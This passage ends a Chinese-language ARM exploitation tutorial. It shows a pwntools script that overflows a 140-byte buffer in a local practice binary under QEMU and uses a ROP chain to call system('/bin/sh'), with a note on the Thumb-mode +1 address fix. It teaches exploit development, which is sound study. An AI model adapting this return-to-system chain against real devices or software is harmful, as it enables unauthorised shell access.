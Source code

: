 ```
from pwn import *

p = process(['qemu-arm-static','-g','1234','./arm_pwn3'])

system_addr = 0x1480C
bin_sh_addr = 0x49018
pop_r0_r4 = 0x1fb5c
payload = 'A' * 140 + p32(pop_r0_r4) + p32(bin_sh_addr) + p32(0) + p32(system_addr + 1)
p.sendlineafter("buffer: ",payload)
pause()
p.interactive()
```

测试发生报错

[<img class="aligncenter" alt="" data-original="https://p2.ssl.qhimg.com/t01b0863f449cb4c2eb.png">](https://p2.ssl.qhimg.com/t01b0863f449cb4c2eb.png)

查看当前CPSP发现T=1，system函数地址加1,测试如下

[<img class="aligncenter" alt="" data-original="https://p2.ssl.qhimg.com/t01ab1e9e1e63ba0846.png">](https://p2.ssl.qhimg.com/t01ab1e9e1e63ba0846.png)

### <a class="reference-link" name="4.%20%E5%AE%9E%E6%88%98%E5%88%86%E6%9E%90"></a>4. 实战分析

后续会发布一篇某款ARM架构的路由器栈溢出漏洞分析文章。



## 参考

[https://www.anquanke.com/post/id/204326](https://www.anquanke.com/post/id/204326)

[https://blog.csdn.net/qq_43116977/article/details/105341940](https://blog.csdn.net/qq_43116977/article/details/105341940)
